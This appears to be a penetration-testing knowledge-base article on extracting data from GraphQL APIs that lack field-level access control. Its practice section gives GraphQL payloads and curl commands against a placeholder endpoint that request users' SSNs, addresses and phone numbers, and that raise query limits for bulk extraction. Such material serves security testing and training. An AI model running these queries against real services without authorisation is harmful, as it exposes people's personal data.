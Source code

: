 ```yaml
---
title: Extract Data Using Projections in GraphQL
description: Learn to exploit GraphQL projections for data extraction using injection
  techniques. Understand selective, nested field extraction and query options injection.
keywords:
- GraphQL
- data extraction
- field projections
- nested fields
- query injection
- sensitive data
- bulk extraction
---
```


# Extract Data Using Projections

## Context

The objective of this article is to demonstrate how to exploit GraphQL field projections to extract sensitive or extensive data via injection. It is assumed that the reader has a working knowledge of the GraphQL schema structure and introspection, crafting and sending GraphQL queries, HTTP request manipulation, and basic data extraction techniques via GraphQL injection. Additionally, familiarity with GraphQL edges/nodes extraction techniques is expected.

## Theory

### Field Projections in GraphQL

Field projection in GraphQL refers to the ability to specify which fields should be included in the query response. This feature, when not properly secured, can be manipulated by an attacker to extract unauthorized or sensitive fields.

A common vulnerability model is the lack of field-level access control. With insufficient restrictions, attackers can craft queries that include requests for sensitive fields like social security numbers or passwords.

### Selective and Nested Field Extraction

Selective extraction involves crafting queries that request only specific fields, such as email or social security numbers, directly from the objects available in the GraphQL schema. Nested projection goes a step further, allowing an attacker to query deeply nested objects and fields all in a single request.

To execute an attack, an attacker might first identify sensitive fields using schema introspection or by analyzing error messages. They would then create queries to extract these fields using projections.

### Query Options Injection

Query options injection involves manipulating query arguments such as filters and limits to maximize the amount of data returned. By combining projection techniques with query options, attackers can remove limits and bypass filters, enabling the extraction of large volumes of data.

## Practice

### Manual Extraction Using Field Projections

This technique involves crafting and sending GraphQL queries that directly specify sensitive fields for extraction.

- **Payload (Projection Query):**

    ```graphql
    { users { id name email ssn } }
    ```

    Here, the query is constructed to request sensitive fields such as "ssn" from the users object.

- **Execution (Command Line):**

    ```bash
    curl -X POST http://target/graphql -H 'Content-Type: application/json' --data '{"query":"{ users { id name email ssn } }"}'
    ```

    Use the above command to send the crafted query to the target GraphQL endpoint, resulting in the extraction of desired fields.

**Outcome:**
Sensitive fields, including social security numbers, are returned in the query response.

### Nested Field Extraction

This technique expands on basic projections by requesting deeply nested data, which can reveal detailed information about entities.

- **Payload:**

    ```graphql
    { users { id profile { address { street city zip } phone } } }
    ```

    The query is crafted to extract nested objects like address and phone details.

- **Execution (Command Line):**

    ```bash
    curl -X POST http://target/graphql -H 'Content-Type: application/json' --data '{"query":"{ users { id profile { address { street city zip } phone } } }"}'
    ```

    Send this request to retrieve comprehensive nested data from the GraphQL API.

**Outcome:**
Detailed information on users, including nested address and contact details, is returned in the response.

### Bulk Extraction via Query Options Injection

By injecting query options, such as limits, attackers can manipulate the query to extract more data from the server than intended.

- **Payload:**

    ```graphql
    { users(limit:1000) { id name email ssn } }
    ```

    Here, the query is designed to maximize data retrieval by increasing the limit option.

- **Execution (Command Line):**

    ```bash
    curl -X POST http://target/graphql -H 'Content-Type: application/json' --data '{"query":"{ users(limit:1000) { id name email ssn } }"}'
    ```

    Execute this command to perform bulk extraction of user data via manipulated GraphQL queries.

**Outcome:**
A significant amount of sensitive data, potentially including thousands of records, is extracted in one query.

## Tools

- **curl**
- **Burp Suite**
- **Postman**